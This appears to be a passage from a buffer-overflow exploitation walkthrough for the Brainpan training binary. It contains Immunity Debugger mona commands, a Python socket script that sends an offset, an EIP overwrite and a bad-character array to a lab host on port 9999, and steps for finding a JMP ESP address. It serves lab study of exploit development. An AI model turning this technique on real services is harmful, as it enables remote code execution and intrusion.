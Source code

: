 ```bash
!mona config -set workingfolder C://Users/usuario/Desktop
```
Generate chars excluding badchars with -cpb
```python
!mona bytearray -cpb "\x00"
```
```python
#!/usr/bin/python

import socket

ip_adress = '192.168.20.117'
port = 9999

if __name__ == '__main__':

        offset = "A"*524
        EIP = "B"*4
        #BADCHARS= \x00\
        chars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
        buffer = offset + EIP + chars

        try:
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.connect((ip_adress, port))

                data = s.recv(1024)
                s.send("%s\r\n" % buffer)
                data = s.recv(1024)
                s.close()

        except:
                print "\n[*] No me la container bro"
                sys.exit(1)
```
```bash
!mona compare -f /PATH/bytearray.bin -a <ESP direction>
```
### <span style="color:#d32e9d">Step 6
Find a way to jump into ESP
```python
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp ESP

##################################################################################

!mona modules
!mona jmp -r esp -m brainpan.exe
```